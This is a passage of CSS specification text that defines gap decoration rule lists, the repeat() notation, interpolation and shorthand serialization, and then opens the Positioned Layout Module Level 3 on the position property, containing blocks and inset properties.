<gap-rule>             = <line-width> || <line-style> || <color>
```

These shorthand properties set values for the `column-rule-width`, `column-rule-style`, and `column-rule-color` properties, or the `row-rule-width`, `row-rule-style`, and `row-rule-color` properties, respectively.

| Field | Value |
| --- | --- |
| Name: | **rule** |
| [Value:](#css-values-4:value-defs) | `<'column-rule'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule` and `row-rule` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule` and `row-rule` to the same values.

#### 4.5.  Lists of values and the `repeat()` notation {#css-gaps-1:lists-repeat}

Each of the properties in this section accepts a comma-separated list of values. Setting multiple values in this way allows for varying gap decorations within a given container.

> **Example:** An author might specify alternating red and blue column rules as follows:
>
> ```
> column-rule-width: 1px;
> column-rule-style: solid;
> column-rule-color: red, blue;
> ```

Such a list may contain **repeat()** notations. Similar to [CSS Grid Layout 1 § 7.2.3 Repeating Rows and Columns: the repeat() notation](#css-grid-2:repeat-notation), these notations allow a series of gap decorations that exhibit a recurring pattern to be written in a more compact form.

The generic form of the `repeat()` syntax is, approximately,

```css
repeat( [ <integer [1,∞]> | auto ] , <value># )
```

The first argument to `repeat()` specifies the number of repetitions.

**`<integer>`**

: Specifies an **integer repeater**. An integer repeater expands out to the list of values in the second argument, repeated as many times as specified by the first argument.

  > **Example:** An author may write:
  >
  > ```
  > column-rule-color: gray, red, blue, red, blue, red, blue, gray;
  > ```
  >
  > Or shorten to the following, which produces the same sequence of colors:
  >
  > ```
  > column-rule-color: gray, repeat(3, red, blue), gray;
  > ```

****auto****

: Specifies an **auto repeater**. An auto repeater will be used to fill in values for gaps that would not otherwise receive values from other parts of the list. At most one `repeat()` in a given list of values may be an auto repeater.

  > **Example:** Continuing from the previous example, if the author does not know how many columns will be in the final layout, they might instead write:
  >
  > ```
  > column-rule-color: gray, repeat(auto, red, blue), gray;
  > ```
  >
  > Which will produce a gray decoration in the first and last column gaps, and alternating red and blue decorations in the in-between column gaps.

The second argument to `repeat()` is a comma-separated list of values that would be accepted by the property in which the `repeat()` appears.

#### 4.6.  Assigning gap decoration values to gaps {#css-gaps-1:assigning}

Gap decorations are assigned after gutter collapsing has been applied. A given set of collapsed gutters consume exactly one gap decoration; the next gap decoration is applied to the next gutter (or set of collapsed gutters). Therefore, collapsed gutters are treated as a single gap for decoration purposes.

A gap that is suppressed due to [fragmentation](#css-gaps-1:fragmentation) still consumes a gap decoration value from the pattern, even though no decoration is drawn there. This preserves a consistent association between gaps and decorations across fragmented and unfragmented contexts.

Similarly, when a flex container wraps into multiple flex lines, the decoration pattern is assigned to gaps sequentially across the flexbox and does not restart at the beginning of each flex line.

In flex containers, grid containers, and grid lanes containers, values are assigned starting at the side where placement begins and proceeding in the placement direction. Placement reversals, such as `row-reverse`, `column-reverse`, or `wrap-reverse`, can make this differ from the writing mode direction.

In the stacking axis of a grid lanes container, values are assigned independently in each grid track, restarting the value list and expanding `repeat()` for that track. Gaps before a spanning item take values from their respective track sequences and can therefore differ.

To **assign gap decoration values** to a list of *gaps* using a list of *values*:

1. Replace any integer repeaters in *values* with their expanded-out equivalents.
2. If the list contains no auto repeater, then:

  1. Beginning from the first item in *values* and the first item in *gaps*, assign each value to the corresponding gap. If there are fewer values than gaps, repeat beginning from the first item in *values*, as many times as needed.
  2. End this algorithm.
3. *values* contains an auto repeater. Let *leading count* be the number of items in *values* before the auto repeater. Let *trailing count* be the number of items in *values* after the auto repeater.
4. Partition *gaps* as follows:

  1. Let *leading gaps* contain the first *leading count* items in *gaps*.
  2. Let *trailing gaps* contain the last *trailing count* items in *gaps*, excluding any items in *leading gaps*.
  3. Let *auto gaps* contain any items in *gaps* that are not in either *leading gaps* or *trailing gaps*.
5. If *leading gaps* is non-empty, assign gap decoration values to *leading gaps* using the first *leading count* items in *values*.
6. If *trailing gaps* is non-empty, assign gap decoration values to *trailing gaps* using the first *trailing count* items in *values*.
7. If *auto gaps* is non-empty, assign gap decoration values to *auto gaps* using the list of values in the second argument of the auto repeater.

> **Example:** 
>
> Assignment of a three-value `row-rule-color` list in a grid lanes container. Note that each track restarts the list, so the two gaps before spanning item 6 get different values.

#### 4.7. Interpolation of list values {#css-gaps-1:interpolation-behavior}

When interpolating `repeat()` values, or lists of values for `rule-color` or `rule-width`, the interpolation proceeds in two steps:

1. *Expansion:* Expand any integer repeater into its equivalent list of values.
2. *List Interpolation:* Apply the repeatable list interpolation algorithm to the expanded lists, interpolating each item against its counterpart.

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: 10px; }
>   to   { column-rule-width: 20px, 40px; }
> }
> ```
>
> Interpolation of the above values would result in expansion of the "from" and "to" values to create lists of equal lengths:
>
> ```
> From:   10px, 10px
> At 50%: 15px, 25px
> To:     20px, 40px
> ```

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: repeat(2, 5px, 10px); }
>   to   { column-rule-width: repeat(2, 15px, 20px); }
> }
> ```
>
> Interpolation of the above values would result in expansion of the "from" and "to" values to create lists of equal lengths:
>
> ```
> From:    5px, 10px,  5px, 10px
> At 50%: 10px, 15px, 10px, 15px
> To:     15px, 20px, 15px, 20px
> ```

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: repeat(2, 10px, 20px); }
>   to   { column-rule-width: 20px; }
> }
> ```
>
> Interpolation of the above values would result in expansion of the "from" and "to" values to create lists of equal lengths:
>
> ```
> From:   10px, 20px, 10px, 20px
> At 50%: 15px, 20px, 15px, 20px
> To:     20px, 20px, 20px, 20px
> ```

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: repeat(2, 10px, 20px); }
>   to   { column-rule-width: 20px, 30px; }
> }
> ```
>
> Interpolation of the above values would result in expansion of the "from" and "to" values to create lists of equal lengths:
>
> ```
> From:   10px, 20px, 10px, 20px
> At 50%: 15px, 25px, 15px, 25px
> To:     20px, 30px, 20px, 30px
> ```

When either of the lists we are interpolating between (*from* and *to*) include an auto repeater:

1. Split each of *from* and *to* into segments, similar to how we assign gap decoration values:

  1. Let *leading values* be the values before the auto repeater.
  2. Let *trailing values* be the values after the auto repeater.
  3. Let *auto values* be the values inside the auto repeater.
2. If only one of *from* or *to* contains an auto-repeater, we fall back to discrete interpolation.
3. Expand any integer repeaters on each segment.
4. If the length of *leading values* in *from* and *leading values* in *to* don’t match, we fall back to discrete interpolation. If the length of *trailing values* in *from* and *trailing values* in *to* don’t match, we fall back to discrete interpolation.
5. When both *from* and *to* contain auto-repeaters, and the length of their segments match as described above, apply repeatable list interpolation to the lists of values in each *auto values*.

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: 10px, repeat(auto, 20px), 30px }
>   to   { column-rule-width: 20px, repeat(auto, 40px), 40px }
> }
> ```
>
> Length of the *leading values* and *trailing values* across *from* and *to* match, so we can apply the repeatable list algorithm to each segment.
>
> ```
> From:   10px, repeat(auto, 20px), 30px
> At 50%: 15px, repeat(auto, 30px), 35px
> To:     20px, repeat(auto, 40px), 40px
> ```

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: 10px, 20px, repeat(auto, 20px), 30px }
>   to   { column-rule-width: 20px, 30px, repeat(auto, 40px, 50px), 40px }
> }
> ```
>
> Length of the *leading values* and *trailing values* across *from* and *to* match, so we can apply the repeatable list algorithm to each segment.
>
> ```
> From:   10px, 20px, repeat(auto, 20px, 20px), 30px
> At 50%: 15px, 25px, repeat(auto, 30px, 35px), 35px
> To:     20px, 30px, repeat(auto, 40px, 50px), 40px
> ```

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: 10px, repeat(auto, 20px) }
>   to   { column-rule-width: 20px, 30px, repeat(auto, 40px, 50px) }
> }
> ```
>
> Length of the *from* *leading values* and *to* *leading values* don’t match, so we fall back to discrete interpolation.

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: 10px, repeat(auto, 20px), 30px }
>   to   { column-rule-width: 20px, repeat(auto, 40px), 40px, 50px }
> }
> ```
>
> Length of the *from* *trailing values* and *to* *trailing values* don’t match, so we fall back to discrete interpolation.

> **Example:** ```css
> @keyframes example {
>   from { column-rule-width: 10px, repeat(auto, 20px), 30px }
>   to   { column-rule-width: 20px }
> }
> ```
>
> Only *from* contains an auto repeater, so we fall back to discrete interpolation.

#### 4.8. Serialization {#css-gaps-1:serialization}

The `column-rule`, `row-rule`, and `rule` shorthands are serialized from component longhand properties only if the longhand properties are repeater aligned. If the longhand properties are not repeater aligned, the shorthand serializes as an empty string.

Let *W*, *S* and *C* be the values for the width, style, and color longhand properties respectively. Recall that each is a list of items, where an item is either a single value or a `repeat()` notation. The longhand properties are **repeater aligned** if and only if all of the following are true:

1. *W*, *S* and *C* all have the same number of items.
2. For each item index *i*, *W*[*i*], *S*[*i*] and *C*[*i*] all have the same shape:

  1. they are either all non-repeat values, all integer repeaters, or all auto repeaters.
  2. If they are integer repeaters, the `<integer>` values are equal.
  3. Each `repeat()` notation contains the same number of values.

> **Example:** This shorthand declaration:
>
> ```
> column-rule: 1px solid red, 2px dashed green, 3px dotted blue;
> ```
>
> Breaks down to the following longhand values:
>
> ```
> column-rule-width: 1px, 2px, 3px;
> column-rule-style: solid, dashed, dotted;
> column-rule-color: red, green, blue;
> ```
>
> Which serialize back to the same original shorthand value, because the longhands are repeater aligned: all three properties have the same number of items (3), and each item is a single value (not a repeater).
>
> The same behavior would occur if the three longhands were specified directly rather than coming from a shorthand.

> **Example:** This shorthand declaration:
>
> ```
> column-rule: 1px solid red, repeat(2, 2px dashed green);
> ```
>
> Breaks down to the following longhand values:
>
> ```
> column-rule-width: 1px, repeat(2, 2px);
> column-rule-style: solid, repeat(2, dashed);
> column-rule-color: red, repeat(2, green);
> ```
>
> Which serialize back to the same original shorthand value, because the longhands are repeater aligned: all three properties have the same number of items (2), and at each index the items have matching types (single values at index 0, integer repeaters at index 1), the integer repeaters have the same repeat count (2), and the integer repeaters contain the same number of values (1).
>
> The same behavior would occur if the three longhands were specified directly rather than coming from a shorthand.

> **Example:** This shorthand declaration:
>
> ```
> column-rule: repeat(auto, 1px solid red, 2px dashed green);
> ```
>
> Breaks down to the following longhand values:
>
> ```
> column-rule-width: repeat(auto, 1px, 2px);
> column-rule-style: repeat(auto, solid, dashed);
> column-rule-color: repeat(auto, red, green);
> ```
>
> Which serialize back to the same original shorthand value, because the longhands are repeater aligned: all three properties have the same number of items (1), each item is an auto repeater, and the auto repeaters contain the same number of values (2).
>
> The same behavior would occur if the three longhands were specified directly rather than coming from a shorthand.

> **Example:** These declarations:
>
> ```
> column-rule: repeat(auto, 1px solid red, 2px dashed green);
> column-rule-width: repeat(auto, 3px, 4px, 5px);
> ```
>
> Break down to the following longhand values:
>
> ```
> column-rule-width: repeat(auto, 3px, 4px, 5px);
> column-rule-style: repeat(auto, solid, dashed);
> column-rule-color: repeat(auto, red, green);
> ```
>
> The `column-rule` shorthand will serialize as an empty string because the longhands are not repeater aligned: the auto repeaters contain different numbers of values.
>
> The same behavior would occur if the three longhands were specified directly rather than coming from a shorthand.

> **Example:** These declarations:
>
> ```
> column-rule: repeat(2, 1px solid red, 2px dashed green);
> column-rule-style: dashed, dotted, solid;
> ```
>
> Break down to the following longhand values:
>
> ```
> column-rule-width: repeat(2, 1px, 2px);
> column-rule-style: dashed, dotted, solid;
> column-rule-color: repeat(2, red, green);
> ```
>
> The `column-rule` shorthand will serialize as an empty string because the longhands are not repeater aligned: the items at index 0 have mismatched types (integer repeater for width and color, single value for style).
>
> The same behavior would occur if the three longhands were specified directly rather than coming from a shorthand.

> **Example:** These declarations:
>
> ```
> column-rule: repeat(2, 1px solid red, 2px dashed green);
> column-rule-color: repeat(4, red, cyan);
> ```
>
> Break down to the following longhand values:
>
> ```
> column-rule-width: repeat(2, 1px, 2px);
> column-rule-style: repeat(2, solid, dashed);
> column-rule-color: repeat(4, red, cyan);
> ```
>
> The `column-rule` shorthand will serialize as an empty string because the longhands are not repeater aligned: the integer repeaters have different repeat counts.
>
> The same behavior would occur if the three longhands were specified directly rather than coming from a shorthand.

---

## CSS Positioned Layout Module Level 3 {#css-position-3}

- **Shortname:** `css-position-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-position-3/](https://drafts.csswg.org/css-position-3/)
- **Published TR:** [https://www.w3.org/TR/css-position-3/](https://www.w3.org/TR/css-position-3/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-05-14

### 1.  Introduction {#css-position-3:intro}

*This section is not normative.*

The CSS layout algorithms, by default, size and position boxes in relation to each other so that nothing overlaps.

This specification defines several ways to violate these assumptions when needed, moving elements around in ways that can make them overlap other content:

- Relative positioning, which visually shifts a box relative to its laid-out location.
- Sticky positioning, which visually shifts a box relative to its laid-out location in order to keep it visible when a scrollable ancestor would otherwise scroll it out of sight.
- Absolute positioning, which ignores normal layout entirely, pulling the element out of flow and positioning it relative to its containing block with no regard for other content.
- Fixed positioning, which absolutely positions the box and affixes it to the viewport or page frame so that it is always visible.

These positioning schemes, controlled by the `position` property and the inset properties, are powerful but easy to misuse. With appropriate care, they allow many interesting and useful layouts that couldn’t otherwise be achieved with standard layout rules; without, they allow a page to be laid out in an unusable overlapping jumble of content.

#### 1.1.  Module Interactions {#css-position-3:placement}

This module replaces and extends the positioning scheme features defined in [CSS2] sections:

- [9.1.2 Containing blocks](#css2:containing-block)
- [9.3 Positioning schemes](#css2:positioning-scheme)
- [9.4.3 Relative positioning](#css2:relative-positioning)
- [9.6 Absolute positioning](#css2:absolute-positioning)
- [9.7 Relationships between display, position, and float](#css2:dis-pos-flo)
- [9.8 Comparison of normal flow, floats, and absolute positioning](#css2:comparison)
- [10.1 Definition of "containing block"](#css2:containing-block-details)
- [10.3.7 Absolutely positioned, non-replaced elements](#css2:abs-non-replaced-width)
- [10.3.8 Absolutely positioned, replaced elements](#css2:abs-replaced-width)
- [10.6.4 Absolutely positioned, non-replaced elements](#css2:abs-non-replaced-height)
- [10.6.5 Absolutely positioned replaced elements](#css2:abs-replaced-height)

It also replaces and supersedes the `inset*` property definitions in [CSS-LOGICAL-1] ([CSS Logical Properties 1 § 4.3 Flow-Relative Offsets: the inset-block-start, inset-block-end, inset-inline-start, inset-inline-end properties and inset-block, inset-inline, and inset shorthands](#css-logical-1:position-properties)).

#### 1.2.  Value Definitions {#css-position-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Choosing A Positioning Scheme: `position` property {#css-position-3:position-property}

| Field | Value |
| --- | --- |
| Name: | **position** |
| [Value:](#css-values-4:value-defs) | static \| relative \| absolute \| sticky \| fixed |
| [Initial:](#css-cascade-6:initial-values) | static |
| [Applies to:](#css-cascade-5:applies-to) | all elements except table-column-group and table-column |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `position` property determines which of the **positioning schemes** is used to calculate the position of a box. Values other than `static` make the box a **positioned box**, and cause it to establish an **absolute positioning containing block** for its descendants. Values have the following meanings:

****static****

: The box is not a positioned box, and is laid out according to the rules of its parent formatting context. The inset properties do not apply.

****relative****

: The box is laid out as for `static`, then offset from the resulting position with the inset properties. This offsetting is a purely visual effect, and, unless otherwise specified, does not affect the size or position of any other non-descendant box except insofar as it increases the scrollable overflow area of its ancestors. This positioning scheme is called **relative positioning**.

  See [§ 3.3 Relative Positioning](#css-position-3:relpos-insets) for more details.

****sticky****

: Same as `relative`, except the offsets are calculated *automatically* to keep the element in view as the user scrolls. This positioning scheme is called **sticky positioning**.

  See [§ 3.4 Sticky positioning](#css-position-3:stickypos-insets) for more details.

****absolute****

: The box is taken out of flow such that it has no impact on the size or position of its siblings and ancestors, and does not participate in its parent’s formatting context.

  Instead, the box is positioned and sized solely in reference to its absolute positioning containing block, as modified by the box’s inset properties, see [§ 4 Absolute Positioning Layout Model](#css-position-3:abspos-layout) and [§ 3.5 Absolute (and Fixed) Positioning](#css-position-3:abspos-insets). It can overlap in-flow content or other absolutely positioned elements, and is included in the scrollable overflow area of the box that generates is containing block. This positioning scheme is called **absolute positioning**.

****fixed****

: Same as `absolute`, except the box is positioned and sized relative to a fixed positioning containing block (usually the viewport in continuous media, or the page area in paged media). The box’s position is fixed with respect to this reference rectangle: when attached to the viewport it does not move when the document is scrolled, and when attached to the page area is replicated on every page when the document is paginated. This positioning scheme is called **fixed positioning** and is considered a subset of absolute positioning.

  > **Example:** Authors may wish to specify `fixed` in a media-dependent way. For instance, an author may want a box to remain at the top of the viewport on the screen, but not at the top of each printed page. The two specifications may be separated by using an ['@media'](#css2:at-media-rule) rule, as in:
  >
  > ```
  > @media screen {
  >     h1#first { position: fixed }
  > }
  > @media print {
  >     h1#first { position: static }
  > }
  > ```

A `position` value of `absolute` or `fixed` blockifies the box, causes `float` to compute to `none`, and forces the box to establish an independent formatting context.

#### 2.1.  Containing Blocks of Positioned Boxes {#css-position-3:def-cb}

The containing block of a `static`, `relative`, or `sticky` box is as defined by its formatting context. For `fixed` and `absolute` boxes, it is defined as follows:

**If the box has `position: absolute`:**

: The containing block is established by the nearest ancestor box that establishes an absolute positioning containing block, in the following way:

  **If the ancestor is not an inline box,**

  : the containing block is formed by the padding edge of the ancestor, unless otherwise specified (for example, see [CSS Grid Layout 1 § 9.1 With a Grid Container as Containing Block](#css-grid-2:abspos-items)).

  **If the ancestor is an inline box, using the writing mode of that box,**

  : the containing block is formed by forming a rectangle from the start-most content edges (in both axes) of the first box fragment of the ancestor, and the end-most content edges of the end-most box fragment(s) of the ancestor in each axis. If there are multiple fragments on the same line (e.g. due to [bidi reordering](#css-writing-modes-4:bidi-box-model)), take the start-most fragment as the first fragment.

    > **Issue:** What is a useful containing block to form when the box is fragmented across multiple lines? [[Issue #8284]](https://github.com/w3c/csswg-drafts/issues/8284)

    > **Note:** The containing block formed by a fragmented inline box was undefined in [CSS2].

  If no ancestor establishes one, the absolute positioning containing block is the initial containing block.

  > **Note:** Properties that can cause a box to establish an absolute positioning containing block include `position`, `transform`, `will-change`, `contain`…

**If the box has `position: fixed`:**

: The containing block is established by the nearest ancestor box that establishes an **fixed positioning containing block**, with the bounds of the containing block determined identically to the absolute positioning containing block.

  > **Note:** Properties that can cause a box to establish a fixed positioning containing block include `transform`, `will-change`, `contain`…

  If no ancestor establishes one, the box’s fixed positioning containing block is the **initial fixed containing block**:

  - in continuous media, the layout viewport (whose size matches the dynamic viewport size); as a result, fixed boxes do not move when the document is scrolled.

    > **Note:** In this respect, they are similar to [fixed background images](#css-backgrounds-4:background-attachment) (`background-attachment: fixed`).
  - in paged media, the page area of each page; fixed positioned boxes are thus replicated on every page. (They are fixed with respect to the page box only, and are not affected by being seen through a viewport; as in the case of print preview, for example.)

  > **Note:** As a result, parts of fixed-positioned boxes that extend outside the layout viewport/page area cannot be scrolled to and will not print.

  The initial fixed containing block is the parent of the initial containing block in the containing block chain.

> **Example:** With no positioning, the containing blocks (C.B.) in the following document:
>
> ```
> <!DOCTYPE html>
> <html>
>     <head>
>         <title>Illustration of containing blocks</title>
>     </head>
>     <body id="body">
>         <div id="div1">
>         <p id="p1">This is text in the first paragraph...</p>
>         <p id="p2">This is text <em id="em1"> in the
>         <strong id="strong1">second</strong> paragraph.</em></p>
>         </div>
>     </body>
> </html>
> ```
>
> are established as follows:
>
> | For box generated by | C.B. is established by |
> | --- | --- |
> | html | initial C.B. (UA-dependent) |
> | body | html |
> | div1 | body |
> | p1 | div1 |
> | p2 | div1 |
> | em1 | p2 |
> | strong1 | p2 |
>
> If we position "div1":
>
> ```
> #div1 { position: absolute; left: 50px; top: 50px }
> ```
>
> its containing block is no longer "body"; it becomes the initial containing block (since there are no other positioned ancestor boxes).
>
> If we position "em1" as well:
>
> ```
> #div1 { position: absolute; left: 50px; top: 50px }
> #em1	{ position: absolute; left: 100px; top: 100px }
> ```
>
> the table of containing blocks becomes:
>
> | For box generated by | C.B. is established by |
> | --- | --- |
> | html | initial C.B. (UA-dependent) |
> | body | html |
> | div1 | initial C.B. |
> | p1 | div1 |
> | p2 | div1 |
> | em1 | div1 |
> | strong1 | em1 |
>
> By positioning "em1", its containing block becomes the nearest positioned ancestor box (i.e., that generated by "div1").

##### 2.1.1.  Further Adjustments to the Containing Block {#css-position-3:original-cb}

Some features can alter the effective containing block rectangle of absolutely positioned boxes. These are applied in the following order, with earlier steps modifying the containing block that later steps see:

1. The grid-placement properties on an absolutely positioned box whose containing block is generated by a grid container can change the containing block rectangle to a specified grid area. See [CSS Grid Layout 1 § 9.1 With a Grid Container as Containing Block](#css-grid-2:abspos-items).
2. The `position-area` and `position-try` properties can change the containing block rectangle to a specified area of an position-area grid. See [CSS Anchor Positioning 1 § 3.1 The position-area Property](#css-anchor-position-1:position-area).

The element’s **original containing block** is its containing block before applying any of these effects.

#### 2.2.  Painting Order and Stacking Contexts {#css-position-3:stacking}

The `z-index` property applies to all positioned boxes. When `z-index` is `auto`:

- Fixed and sticky positioned boxes nonetheless form a stacking context.
- Relative and absolute positioned boxes do not form a stacking context, but are painted as if those elements did generated new stacking contexts, except that their positioned descendants and any would-be child stacking contexts take part in the current stacking context.

> **Note:** The root element always forms a stacking context regardless.

See [CSS2 § 9.9 Layered presentation](#css2:layers) and [Appendix E:  Elaborate description of Stacking Contexts](#css2) for details about `z-index`, stacking contexts, and painting order.

### 3.  Positioning Coordinates {#css-position-3:coords}

The precise location of a positioned box is controlled by the **inset properties**: the physical inset properties `top`, `right`, `bottom`, `left`; the flow-relative inset properties `inset-block-start`, `inset-inline-start`, `inset-block-end`, and `inset-inline-end`; and their shorthands, `inset-block`, `inset-inline`, and `inset`.

The interpretation of these inset properties varies by positioning scheme:

- for absolute positioning, they represent insets from the containing block.
- for relative positioning, they represent insets from the box’s original margin edge.
- for sticky positioning, they represent insets from the scrollport edge.

#### 3.1.  Box Insets: the `top`, `right`, `bottom`, `left`, `inset-block-start`, `inset-inline-start`, `inset-block-end`, and `inset-inline-end` properties {#css-position-3:insets}

| Field | Value |
| --- | --- |
| Name: | **top**, **right**, **bottom**, **left**, **inset-block-start**, **inset-inline-start**, **inset-block-end**, **inset-inline-end** |
| [Value:](#css-values-4:value-defs) | auto \| `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to size of containing block; see prose |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `inset` |

These inset properties represent an inward “inset” on the corresponding side of the box (with respect to the box’s own writing mode; see [CSS Writing Modes 3 § 6 Abstract Box Terminology](#css-writing-modes-4:abstract-box)). For example, `top` represents a downward inset of the top edge. The physical and flow-relative properties interact as defined in [CSS-LOGICAL-1]. Values have the following meanings:

****<length>****

: The inset is a fixed distance from the reference edge. Negative values are allowed.

****<percentage>****

: The inset is a percentage relative to the containing block’s size in the corresponding axis (e.g. width for `left` or `right`, height for `top` and `bottom`). For sticky positioned boxes, the inset is instead relative to the relevant scrollport’s size. Negative values are allowed.

****auto****

: Represents an unconstrained inset; the exact meaning depends on the positioning scheme.

> **Note:** For fixed positioned elements, using large values or negative values can easily move elements outside the viewport and make the contents unreachable through scrolling or other means.

#### 3.2.  Box Insets Shorthands: the `inset-block`, `inset-inline`, and `inset` properties {#css-position-3:inset-shorthands}

| Field | Value |
| --- | --- |
| Name: | **inset-block**, **inset-inline** |
| [Value:](#css-values-4:value-defs) | `<'top'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `inset-block` and `inset-inline` properties are shorthand properties for setting `inset-block-start` + `inset-block-end` or `inset-inline-start` + `inset-inline-end`, respectively, in a single declaration. The first component value sets the start side, the second sets the end; if omitted, the second value defaults to the first.

| Field | Value |
| --- | --- |
| Name: | **inset** |
| [Value:](#css-values-4:value-defs) | `<'top'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `inset` property is a shorthand property that sets all of the inset properties in a single declaration, assigning values to the longhands representing each side exactly as the `margin` property does for its longhands.

> **Note:** By default, the `inset` property values are assigned to the corresponding *physical* longhand properties—​`top`, `right`, `bottom`, and `left`—​which for historical reasons do not have an `inset-` prefix. This matches the behavior of other "4 values assigned to sides" properties, such as `margin`.
>
> Allowing properties such as this to resolve to the flow-relative longhands is under discussion in [CSS-LOGICAL-1].
>
> Yes, we understand it’s a little confusing that `inset` doesn’t expand to any `inset-*` properties.

#### 3.3.  Relative Positioning {#css-position-3:relpos-insets}

For a relatively positioned box, the inset properties move the box inward from the respective edge, without changing its size. `left` moves the box to the right, `right` moves it to the left, etc. Since boxes are not split or stretched as a result of relative positioning opposing used values in a given axis must be negations of each other:

- If opposing inset properties in an axis both compute to `auto` (their initial values), their used values are zero (i.e., the boxes stay in their original position in that axis).
- If only one is `auto`, its used value becomes the negation of the other, and the box is shifted by the specified amount.
- If neither is `auto`, the position is over-constrained; (with respect to the writing mode of its containing block) the computed end side value is ignored, and its used value becomes the negation of the start side.

> **Example:** The following three rules are equivalent, and shift the box `1em` to the left:
>
> ```
> div.a8 { position: relative; direction: ltr; left: -1em; right: auto }
> div.a8 { position: relative; direction: ltr; left: auto; right: 1em }
> div.a8 { position: relative; direction: ltr; left: -1em; right: 5em }
> ```

If specified on a `table-row-group`, `table-header-group`, `table-footer-group`, or `table-row` box the shift affects all the contents of the box, including all `table cells` that originate in the affected row, but not those that don’t.

> **Note:** Since `position` does not apply to `table-column-group` or `table-column` boxes, they are not affected by relative positioning.

#### 3.4.  Sticky positioning {#css-position-3:stickypos-insets}

Sticky positioning is similar to relative positioning except the offsets are automatically calculated in reference to the nearest scrollport.

For a sticky positioned box, the inset properties represent insets from the respective edges of the scrollport of the nearest scroll container with a matching scrollable axis, defining the **sticky view rectangle** used to constrain the box’s position. (The sticky view rectangle can be constructed from edges of two different scrollports, if the nearest scroll container is a single-axis scroll container.)

If *both* inset properties in a given axis are `auto`, no offsets are added in that axis; the element stays where it was laid out in that axis. Otherwise, `auto` insets represent zero insets.

If this results in a sticky view rectangle size in any axis less than the size of the border box of the sticky box in that axis, then the effective end-edge inset in the affected axis is reduced (possibly becoming negative) to bring the sticky view rectangle’s size up to the size of the border box in that axis (where end is interpreted relative to the writing mode of the containing block).

> **Example:** For example, if the nearest scrollport is `300px` tall, the sticky box’s border box is `200px` tall, and it has `top: 20px`, then the top-edge inset of the nearest scrollport is `20px`, and the bottom-edge inset is `0px`, yielding a sticky view rectangle that is `280px` tall.
>
> But if the nearest scrollport were only `100px` tall, then the effective bottom-edge inset becomes `-120px`, resulting in a sticky view rectangle that’s `200px` tall, enough to fully contain the margin box of the sticky box.

For each side of the box, if the corresponding inset property is not `auto`, and the corresponding border edge of the box would be outside the corresponding edge of the sticky view rectangle, then the box must be visually shifted ([as for relative positioning](#css-position-3:relpos-insets)) to be inward of that sticky view rectangle edge, insofar as it can while its position box remains contained within its containing block. The **position box** is its margin box, except that for any side for which the distance between its margin edge and the corresponding edge of its containing block is less than its corresponding margin, that distance is used in place of that margin.

> **Note:** A sticky positioned element with a non-`auto` `top` value and an `auto` `bottom` value will only ever be pushed down by sticky positioning; it will never be offset upwards.

> **Note:** Multiple sticky positioned boxes in the same container are offset independently, and therefore might overlap.

##### 3.4.1.  Scroll Position of Sticky-Positioned Boxes {#css-position-3:stickypos-scroll}

For the purposes of any operation targeting the scroll position of a sticky positioned element (or one of its descendants), the sticky positioned element must be considered to be at its offsetted position.

> **Example:** For example, if a user clicks a link targeting a sticky-positioned element, if the element’s nearest scrollport is currently scrolled such that the sticky positioned element is offset from its initial position, the scroll container will be scrolled back only the minimum necessary to bring it into its desired position in the scrollport (rather than scrolling all the way back to target its original, non-offsetted position).

#### 3.5.  Absolute (and Fixed) Positioning {#css-position-3:abspos-insets}

For an absolutely positioned box, the inset properties effectively reduce the containing block into which it is sized and positioned by the specified amounts. The resulting rectangle is called the **inset-modified containing block**. (For disambiguation, the actual containing block of an absolutely positioned box can also be called the **absolute-position containing block**.)

An absolutely positioned box is sized and positioned into the inset-modified containing block as described in [§ 4 Absolute Positioning Layout Model](#css-position-3:abspos-layout).

